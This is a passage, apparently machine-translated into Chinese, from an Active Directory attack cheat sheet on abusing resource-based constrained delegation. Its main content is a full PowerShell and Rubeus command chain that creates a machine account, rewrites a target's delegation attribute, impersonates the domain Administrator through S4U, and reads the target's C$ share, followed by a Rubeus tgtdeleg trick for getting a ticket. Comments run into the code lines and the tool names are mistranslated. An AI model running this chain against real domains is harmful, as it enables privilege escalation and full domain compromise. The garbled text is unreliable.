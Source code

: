 *WUT 是 DIS？:
TL；如果我们在一个域的机器帐户对象上有 GenericALL/GenericWrite 特权，我们就可以滥用它，并把我们自己冒充成这个域的任何用户。例如，我们可以模拟域管理员并拥有完全的访问权限。*

我们将使用的工具:

*   [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
*   [动力狂](https://github.com/Kevin-Robertson/Powermad)
*   [红色](https://github.com/GhostPack/Rubeus)

首先，我们需要输入对该对象拥有权限的用户/机器帐户的安全上下文。如果这是一个用户帐户，我们可以使用通过哈希，RDP，PSCredentials 等。

利用示例:

```
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```

详细文章:

*   [顾全大局:滥用基于资源的约束委托攻击活动目录](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
*   [基于资源的受限委托滥用](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

约束和基于资源的约束委托中的❗如果我们没有试图滥用的 TRUSTED_TO_AUTH_FOR_DELEGATION 帐户的密码/哈希，我们可以使用 kekeo 的“tgt::deleg”或 rubeus 的“tgtdeleg”这一非常好的技巧，骗过 Kerberos 给我们一个该帐户的有效 tgt。然后，我们只需使用票证而不是帐户的哈希来执行攻击。

```
#Command on Rubeus
Rubeus.exe tgtdeleg /nowrap
```

详细文章:[rube us——现在有更多 Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)

# 滥用 DNSAdmins
